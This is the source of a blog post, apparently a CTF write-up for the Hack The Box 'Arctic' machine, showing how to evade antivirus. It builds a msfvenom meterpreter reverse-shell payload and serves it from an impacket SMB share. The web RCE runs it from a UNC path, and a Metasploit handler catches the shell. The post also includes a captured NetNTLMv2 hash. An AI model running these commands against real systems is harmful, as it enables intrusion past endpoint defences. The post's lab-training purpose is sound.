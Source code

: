 ```yaml
---
layout: post
title: Bypass AV using Impacket SmbServer
categories:
  - Exploits
---
```



<br>This Topic is really interesting because many people don't know exactly how to bypass common AV in windows machine, if you look at most of the AV these days heuristic detection is off even in the enterprise/Companies because it takes a lot of CPU usage.

<br>And this is where we can utilise this Weak spot, Consider a scenario where we have a RCE, or OS-command Injection on the Web, for this I am taking the HTB Arctic machine, which fit's perfectly for this situation.

<br>Now as we know that machine have AV because of which we couldn't able to exeute a meterpreter payload, and later we created a Ecnrypted meterpreter with veil evasion.
<br>With this method we don't need to encode our meterpreter payload, we just need to set up our Impacket smb server and then run the command which will reqest our payload file and run that in the memory, because heuristic detection is off we can easily Bypass it.

<br>**Poc**
<br>if you have not Done the [Arctic](https://teckk2.github.io/writeup/2017/12/27/Arctic.html) machine, I recomend first follow the steps and reach the step where we have RCE on the web,
<br>first generate the Payload

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
  
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.*.*.10 LPORT=4455 -f exe > arctic.exe
<br>No platform was selected, choosing Msf::Module::Platform::Windows from the payload
<br>No Arch selected, selecting Arch: x86 from the payload
<br>No encoder or badchars specified, outputting raw payload
<br>Payload size: 341 bytes
<br>Final size of exe file: 73802 bytes
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>Now Download and Install the [Impacket Server](https://github.com/CoreSecurity/impacket).
<br>And then run it 

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">

<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># impacket-smbserver teck /root/Desktop/
<br>Impacket v0.9.17-dev - Copyright 2002-2018 Core Security Technologies</p>

<p>[*] Config file parsed
<br>[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
<br>[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
<br>[*] Config file parsed
<br>[*] Config file parsed
<br>[*] Config file parsed</p>
</div>
</font>
<br>In this I am using teck as the remote folder name to represent on the server and my file is in /root/Desktop/
<br>Now our SMB server is up and runnig now go to the web page and request for the file with the command **{/c \\10.*.*.10\teck\arctic.exe}**.
<br> ![SMB-Request](https://teckk2.github.io/assets/images/Arctic/17.PNG)
<br>Before you execute the command make sure to set up the meterpreter listner
<br>After executing wait for 30-40 Sec to get the request on the SMB server

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
  
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># impacket-smbserver teck /root/Desktop/
<br>Impacket v0.9.17-dev - Copyright 2002-2018 Core Security Technologies</p>

<p>[*] Config file parsed
<br>[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
<br>[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
<br>[*] Config file parsed
<br>[*] Config file parsed
<br>[*] Config file parsed
<br>[*] Incoming connection (10.10.10.11,51377)
<br>[*] AUTHENTICATE_MESSAGE (ARCTIC\tolis,ARCTIC)
<br>[*] User tolis\ARCTIC authenticated successfully
<br>[*] <br>tolis::ARCTIC:4141414141414141:2c61717958f1127eca09aa171e1c1d09:01010000000000000065347207f9d30170ad6d3e142ee077000000000100100075005300590056004f006700630067000200100061004c0076004b0078004c0050007a000300100075005300590056004f006700630067000400100061004c0076004b0078004c0050007a00070008000065347207f9d301060004000200000008003000300000000000000000000000003000005f5d2c0dd8d042f2bceefe6e8fb2072d4dd038e23ce10f454d55eee31d91688c0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003000000000000000000000000000<p>

</div>
</font>

<br>We got the request Now check our MSF

<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
 
<p>msf > use exploit/multi/handler 
<br>msf exploit(<font color="red">multi/handler</font>) > set payload windows/meterpreter/reverse_tcp
<br>payload => windows/meterpreter/reverse_tcp
<br>msf exploit(<font color="red">multi/handler</font>) > set LHOST 10.*.*.10
<br>LHOST => 10.10.14.10
<br>msf exploit(<font color="red">multi/handler</font>) > set LPORT 4455
<br>LPORT => 4455
<br>msf exploit(<font color="red">multi/handler</font>) > exploit</p>

<p><font color="RoyalBlue">[*]</font> Started reverse TCP handler on 10.*.*.10:4455 
<br><font color="RoyalBlue">[*]</font> Sending stage (179779 bytes) to 10.10.10.11
<br><font color="RoyalBlue">[*]</font> Meterpreter session 1 opened (10.*.*.10:4455 - 10.10.10.11:51379) at 2018-05-31 13:47:39 -0400</p>

<p>meterpreter > getuid 
<br>Server username: ARCTIC\tolis
<br>meterpreter > shell 
<br>Process 3848 created.
<br>Channel 1 created.
<br>Microsoft Windows [Version 6.1.7600]
<br>Copyright (c) 2009 Microsoft Corporation.  All rights reserved.</p>

<p>C:\ColdFusion8\runtime\bin>whoami
<br>whoami
<br>arctic\tolis</p>

<p>C:\ColdFusion8\runtime\bin> </p>

</div>
</font>

<br>As you can see we successfully executed our meterpreter payload in the memory and bypass the AV and get shell.
<br>I learned This method from my mentor [KNX](https://twitter.com/ddarix), you can check the Orignal Video.
<iframe src="https://www.youtube.com/watch?v=BLBFKp20idE&t=125s" width="640" height="360" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe>

<p class="message">
  ~ Hack the World and keep Loving Little Prince.
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>

